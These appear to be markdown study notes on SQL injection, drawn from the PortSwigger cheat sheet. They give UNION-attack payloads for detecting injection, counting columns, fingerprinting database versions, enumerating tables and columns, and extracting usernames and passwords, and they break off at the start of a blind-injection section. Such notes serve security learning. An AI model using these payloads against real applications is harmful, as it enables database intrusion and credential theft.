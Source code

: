 # Portswigger cheat sheet
sql-injection cheat-sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

## SQLi - UNION Attack
When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the UNION keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

**Note:** don't forget to use url encoding

### Test for SQLi
~~~
jeremy'
jeremy"

jeremy' or 1=1#
jeremy' or 1=1--

jeremy' or 1=2--
~~~


### Number of columns
~~~
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
~~~

finding oclumns with a useful data type
~~~
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
~~~


### Database version
~~~
Oracle 	        SELECT banner FROM v$version
                SELECT version FROM v$instance

Microsoft 	SELECT @@version

PostgreSQL 	SELECT version()

MySQL 	        SELECT @@version
~~~

example
~~~
' UNION SELECT NULL,NULL,version()#
~~~

### Database tables & columns
~~~
Oracle 	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft   SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL  SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL 	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
~~~

example tables
~~~
' UNION SELECT NULL,NULL,table_name from information_schema.tables#
~~~

example columns
~~~
' UNION SELECT NULL,NULL,column_name from information_schema.columns#
~~~

### Interesting data
example
~~~
' UNION SELECT username, password FROM users--
~~~

example - concatenation
~~~
' UNION SELECT username || '~' || password FROM users--
~~~

## SQLi - BLIND Attack
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

**Note:** UNNION attacks are not effective with blind sql injection.